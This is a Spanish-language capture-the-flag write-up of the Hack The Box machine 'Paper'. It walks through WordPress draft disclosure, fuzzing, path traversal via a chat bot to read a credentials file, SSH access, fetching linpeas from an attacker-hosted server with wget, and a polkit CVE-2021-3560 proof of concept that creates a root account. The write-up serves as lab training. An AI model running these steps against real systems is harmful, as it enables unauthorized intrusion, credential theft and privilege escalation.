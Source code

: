```yaml
---
title: Paper
---
```


![htb](../../../../../assets/paper.png)

 > 📦 **OS**: Linux  
 > 🎯 **Dificultad**: fácil  
 > 🏷️ **Tags**: SMB, Kerberos, PrivEsc  

## Enumeración

Empezamos haciendo un escaneo de puertos como es habitual, nos reporta los puertos 22(SSH), 80(HTTP), 443(HTTPS) abiertos; luego prosigo con el reconocimiento de scripts pero ninguno de estos me da información relevante.

```
nmap -sSV -p- --open --min-rate 5000 10.10.11.143
```
![nmap](../../../../../assets/Paper/nmap.png)
```
nmap -sC -p22,80,443 10.10.11.143
```
![script](../../../../../assets/Paper/script.png)

Luego enumeré headers. Yo los enumero con `curl` pero hay muchas formas de enumerarlos, con wger, http, printf, pero sigo pensando que con curl es la manera más sencilla. 
```
curl -I 10.10.11.143
```
![curl](../../../../../assets/Paper/curl.png)

[X-Backend-Server](# "Encabezado HTTP no estándar que revela el servidor backend que procesó la petición.") nos da el dominio que se está corriendo en el backend, así que lo añadimos a office.paper a nuestro **_/etc/hosts_** especificándole la _IP_ de la máquina.

## Reconocimiento

Una vez estemos dentro de la página podemos navegar en ella, veremos que no hay mucha información relevante, pero wappalyzer nos revela la versión del [WordPress](# "software que permite crear blogs, páginas web y tiendas online con plantillas, plugins y un panel de administración sencillo.")(5.2.3). Las versiones son oro a la hora de vulnerar una página, tras una breve búsqueda por internet encontré que esta versión sufría de un **_Content Disclosure_** [CVE:2019-17671](https://www.exploit-db.com/exploits/47690).
```bash
http://office.paper/?static=1
```
![curl](../../../../../assets/Paper/disclouser.png)
<span style="font-size:12px">_Este es el contenido de la página, nos revela el subdominio de un chat privado <u>http://chat.office.paper/register/8qozr226AhkCHZdyY</u>_</span>

Para acceder a esta URL tendremos que agregar el subdominio al _/etc/hosts_, si no, nuestra máquina no sabrá dónde redirigirnos.  
Podrías pensar que haciendo fuzzing se podría encontrar y efectivamente encontrarías el subdominio. Pero requerimos del token identificador para registrarnos. 

```
ffuf -u http://10.10.11.143 -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 403
```
![curl](../../../../../assets/Paper/ffuf.png)

Una vez ya hemos añadido el subdominio y estamos en la página, vamos a registrarnos y navegar por ella a ver de qué nos podemos aprovechar. 

Casi de manera inmediata después de registrarnos, nos llegará un mensaje del grupo general. Fue gracioso ver que hicieran alusión a The Office, me pareció un muy buen punto. El caso es que leyendo un poco el grupo encontré que puedes hablar con un bot el cual tenía ciertas funciones que me parecieron potenciales para jugar con ellas.

![curl](../../../../../assets/Paper/chat.png)

Así que busqué a _recyclops_ para iniciar un chat privado con el bot; el primer indicio que me dio fue cuando le pregunté por un archivo que no existía.

![curl](../../../../../assets/Paper/indicio.png)

Me di cuenta que hacía un `ls` en la máquina, intenté por varios medios colarle un comando pero no me dejaba :(, así que empecé a enumerar haciendo [Path Traversal](# "“Vulnerabilidad que permite acceder a archivos fuera del directorio previsto manipulando rutas con ../ u otros patrones.”").

![curl](../../../../../assets/Paper/path.png)

El archivo que más llamó mi atención fue el de [hubot](# "framework de robot conversacional desarrollado por GitHub Inc. para automatizar tareas y mejorar la comunicación en entornos de oficina a través de plataformas de chat"). Así que me puse a investigarlo y encontré un .env que se usa para declarar variables de entorno.

![curl](../../../../../assets/Paper/credential.png)

Efectivamente, tenía una credencial. Ya que no podía ingresar comandos deduje que podía ingresar con estas credenciales vía ssh, ya que antes había visto que el usuario era **dwight** porque había archivos que pertenecían a ese usuario.

## Explotación

Una vez dentro, obtendremos la primera flag. Estuve enumerando un poco de todo, no vi nada potencial y decidí meterle un [linpeas](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)

###### Cargando linpeas en la máquina víctima

- Para descargar el archivo simplemente ejecutas este comando.
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
```

- Te montas un servidor en python desde tu máquina
```
python3 -m http.server 80
```

- Dentro de la máquina víctima en el directorio /tmp.
```
wget http://Ip/linpeas
```
Le das permisos de ejecución con `chmod +x linpeas` y lo ejecutas `./linpeas`

![CVE](../../../../../assets/Paper/cve.png)
<span style="font-size:12px">_Nos reporta que es vulnerable al CVE-2021-3560_</span>

Esta vulnerabilidad aprovecha para escalar privilegios con [polkit](# "componente de control de privilegios en sistemas operativos de tipo Unix que permite a los procesos no privilegiados interactuar de forma segura con servicios privilegiados al implementar políticas de acceso basadas en la configuración"). Permite a un usuario local sin privilegios obtener acceso root, incluyendo la capacidad de crear cuentas administrativas, instalar software, modificar archivos críticos y más.

Yo utilicé este [POC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/tree/main) que automatiza el ataque.

- Instalamos el poc y lo subimos a la máquina víctima como hicimos antes con _linpeas_ 

```
./poc u=atrax p=test
```
![CVE](../../../../../assets/Paper/poc.png)

```
su - atrax
```
Proporcionas la contraseña que pusiste y habrás escalado privilegios.

## Reflexión

Una máquina bastante curiosa, refleja la importancia de no usar versiones desactualizadas de WordPress, de sanitizar o restringir el uso de los bots ya que de ahí viene toda la toma de la máquina.

# FIN.

